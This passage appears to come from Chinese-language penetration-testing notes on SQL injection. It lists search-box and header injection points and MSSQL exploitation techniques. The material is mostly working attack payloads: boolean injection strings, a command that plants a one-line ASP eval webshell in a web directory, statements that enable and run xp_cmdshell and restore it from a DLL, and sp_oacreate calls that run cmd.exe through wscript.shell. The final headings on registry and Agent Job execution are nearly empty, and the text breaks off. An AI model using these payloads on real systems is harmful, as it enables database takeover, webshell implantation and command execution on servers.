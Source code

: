 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612317103226-679c62de-5503-4996-9ea4-acbbad2e0683.png#align=left&display=inline&height=119&margin=%5Bobject%2Object%5D&name=image.png&originHeight=238&originWidth=554&size=18591&status=done&style=none&width=277)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612317106445-a24046e6-17ce-443d-b37b-63bd3fc90125.png#align=left&display=inline&height=137&margin=%5Bobject%2Object%5D&name=image.png&originHeight=274&originWidth=554&size=41660&status=done&style=none&width=277)
18、进行执行系统命令操作。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612317113216-93f538c1-d58a-4bac-b262-a15d676aa57a.png#align=left&display=inline&height=137&margin=%5Bobject%2Object%5D&name=image.png&originHeight=273&originWidth=554&size=27211&status=done&style=none&width=277)

## 其他类型的SQL注入
### 1、搜索框注入
```php
?id=1' and '1%'='1		//返回正确的搜索结果
?id=1' and '1%'='2		//没有返回结果
```
### 2、header头部注入
Client-IP
User-Agent
X-Forwarded-For


## SQL注入利用
### 1、MSSQL
#### 0x01 --os-shell
```php
for /r C: %i in (*020.jpg*) do @echo %i //寻找020.jpg，获取所在目录

dir c:\phpstudy\WWW\image								//列出某目录下文件

echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["1"],"unsafe");%^> > c:\phpstudy\WWW\image\shell.asp
```
#### 0x02 命令执行
1、xp_cmdshell
```php
#开启xp_cmdshell
?id=1;use master;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;

#执行
?id=1;use master;exec master..xp_cmdshell "whoami";

#恢复被删除的xp_cmdshell(提示xplog79.dll找不到则自己上传)
exec sp_addextendedproc xp_cmdshell ,@dllname="D:\\xplog79.dll"
```
2、sp_oacreate
```sql
#xp_cmdshell删除后可以使用sp_oacreate
#开启sp_oacreate
exec sp_configure 'show advanced options',1;
reconfigure with override;
exec sp_configure 'Ole Automation Procedures',1;
reconfigure with override;
exec sp_configure 'show advanced options',0;

#执行[此方法无回显]
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >d:\\temp\\1.txt'
```
3、通过沙盒执行命令
4、注册表
5、通过Agent Job执行命令
```sql
#执行cs powershell命令
```